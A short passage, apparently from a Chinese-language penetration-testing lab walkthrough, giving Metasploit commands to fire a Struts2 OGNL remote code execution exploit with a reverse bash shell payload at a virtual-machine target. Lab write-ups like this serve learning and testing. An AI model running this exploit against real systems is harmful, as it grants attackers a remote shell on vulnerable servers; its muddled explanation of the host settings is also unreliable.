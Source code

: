 使用合适的 exp payload
```
use exploit/multi/http/struts2_multi_eval_ognl
set payload payload/cmd/unix/reverse_bash

# 配置 exp 参数
set rhosts 192.168.56.119 
set rport 64617          
set lhost 192.168.56.113
```
![](img/use_multieval.png)
可以show options来查看。
进行相关设置，rhosts设置成自己的虚拟机地址,lhosts、rhosts分别是靶机的ip和端口。`exploit -j`发送